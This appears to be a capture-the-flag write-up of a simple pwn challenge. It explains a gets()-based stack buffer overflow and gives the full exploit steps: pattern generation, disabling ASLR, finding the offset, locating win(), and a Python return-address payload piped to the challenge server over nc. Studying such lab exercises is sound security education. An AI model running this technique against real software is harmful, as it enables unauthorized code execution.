









Challenge: Simple Offer
Points: 100
Category: Pwn

C code, along with a docker file was provided. So, let's try to understand the code first.

This program contains a classic stack buffer overflow vulnerability that allows an attacker to modify the return address and hijack control flow.

The vuln() function uses the dangerous gets() function to read user input into a fixed size buffer buf[32]. gets() does not perform any bounds checking, so an attacker can provide a string longer than 32 bytes. This will overflow buf and overwrite the stack, including the return address that was saved when vuln() was called. By carefully crafting the input string, an attacker can control the value of the overwritten return address. When vuln() returns, it will jump to the address specified by the attacker instead of returning to main().

The win() function prints the contents of the file flag.txt. By overwriting the return address with the address of win(), an attacker can redirect code execution to win() after vuln() returns. This essentially allows the attacker to "hijack" the normal program flow and execute arbitrary code (in this case win()) to print the contents of flag.txt.

Let's try to do a buffer overflow attack on bof.c in Kali Linux.

Step 1: Create a pattern using the following command and send it to input.txt file.

msf-pattern_create -l 100 > input.txt

Step 2: Disable Address Space Layout Randomization (ASLR) when testing buffer overflows locally to have predictable memory addresses for developing clean proof-of-concept exploits. With ASLR enabled, memory mappings are randomized, making it difficult to hijack control flow. Disabling ASLR provides static memory mappings so the exact addresses of stack, heap, libraries, and code are known. This allows reliably redirecting execution in exploits by overwriting return pointers with hardcoded addresses.

echo 0 | sudo tee /proc/sys/kernel/randomize_va_space 

Step 3: Debug bof using "gdb", using input.txt as input (run < input.txt). We see that we are able to overwrite and create a segmentation fault.

Step 4: Now, let's check what the offset was. We get a match at 40.

msf-pattern_offset -q 62413362 

Step 5: Now, let's find the return address of win().

objdump -t ./bof | grep " win"

Step 6: Time for final payload to be created and passed to ./bof. (Create a flag.txt so that it can be fetched)

python -c 'print("A" * 40 + "\x76\x11\x40\x00\x00\x00\x00\x00")' | ./bof

Step 7: Time to try this on the production instance of the challenge.
Note: Amazon Team suggested to use 401196 as the address for production instead of 401176.
Offset of 40 didnt work for that, so I tried by keeping offset as 39 instead of 40.

python -c 'print("A" * 39 + "\x96\x11\x40\x00\x00\x00\x00\x00")' | nc 3.142.83.254 1234

FLAG: Amazon{0verfl0w_mad3_th3_dr3@m_c0me_tru3}

